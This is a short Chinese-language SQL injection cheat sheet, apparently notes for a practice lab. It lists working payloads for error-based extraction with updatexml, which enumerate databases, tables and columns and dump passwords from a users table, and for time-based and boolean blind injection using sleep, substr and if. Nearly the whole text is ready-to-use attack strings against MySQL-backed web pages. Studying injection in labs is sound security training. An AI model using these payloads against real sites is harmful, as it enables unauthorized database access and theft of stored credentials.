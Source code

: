   

爆库：

```sql
?id=1' and updatexml(1,(select concat(0x7e,(schema_name),0x7e) from information_schema.schemata limit 2,1),1) -- +
```

爆表：

```sql
?id=1' and updatexml(1,(select concat(0x7e,(table_name),0x7e) from information_schema.tables where table_schema='security' limit 3,1),1) -- +
```

爆字段：

```sql
?id=1' and updatexml(1,(select concat(0x7e,(column_name),0x7e) from information_schema.columns where table_name=0x7573657273 limit 2,1),1) -- +
```

爆数据：

```sql
?id=1' and updatexml(1,(select concat(0x7e,password,0x7e) from users limit 1,1),1) -- +
concat 也可以放在外面 updatexml(1,concat(0x7e,(select password from users limit 1,1),0x7e),1)
```


### **盲注**  

**时间盲注**

常用函数 `sleep()`

分割函数 `substr`、`substring`、`left`

分割函数编码后可不用引号，ascii() hex()

一般时间盲注我们还需要使用条件判断函数

if（expre1，expre2，expre3）

  

当 expre1 为 true 时，返回 expre2，false 时，返回 expre3


```sql
?id=1' and if(ascii(substr(database(),1,1))>115,1,sleep(5))--+
?id=1' and if((substr((select user()),1,1)='r'),sleep(5),1)--+
```

  

**布尔盲注**

```sql
?id=1' and substr((select user()),1,1)='r' -- +
?id=1' and IFNULL((substr((select user()),1,1)='r'),0) -- +
```

//如果 IFNULL 第一个参数的表达式为 NULL，则返回第二个参数的备用值，不为 Null 则输出值
